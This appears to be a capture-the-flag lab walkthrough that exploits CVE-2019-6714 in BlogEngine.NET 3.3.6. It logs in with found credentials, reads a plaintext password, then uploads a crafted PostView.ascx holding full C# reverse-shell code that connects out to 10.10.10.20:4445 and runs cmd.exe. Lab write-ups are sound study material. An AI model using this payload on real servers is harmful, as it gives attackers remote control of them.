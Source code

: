 
## Getting a new password from the Web Server

With the found credentials, you are able to log in as user guest on `http://MACHINE IP>/blog/Account/login.aspx?ReturnURL=/blog/admin/`.

![[image.png|317x423]]

After loggin in you'll see

![[Screenshot from 2025-09-15 19-47-59.png]]

Go to `Draft pages` and read the page.

![[Screenshot from 2025-09-15 19-50-56.png]]

There's a pasword `Excal1burP@ss1337`.

## Accessing the Machine

### BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution

> [!Note]
>  CVE-2019-6714
>  Path traversal vulnerability leading to remote code execution.  This vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This  is caused by an unchecked "theme" parameter that is used to override  the default theme for rendering blog pages.  The vulnerable code can   be seen in this file:  /Custom/Controls/PostList.ascx.cs.
 
More info: https://www.exploit-db.com/exploits/46353

#Attacking_machine 
- Create a file called `PostView.ascx`with the following content.
```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 4445)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```


#Web_edito
- On the previous message where you got the password, there's an File Manager Icon. ![[Screenshot 2025-09-15 at 14-08-13 Excelibur (guest).png]]

- Enter and upload the `PostView.ascx` file.

![[Screenshot from 2025-09-15 20-11-22.png]]



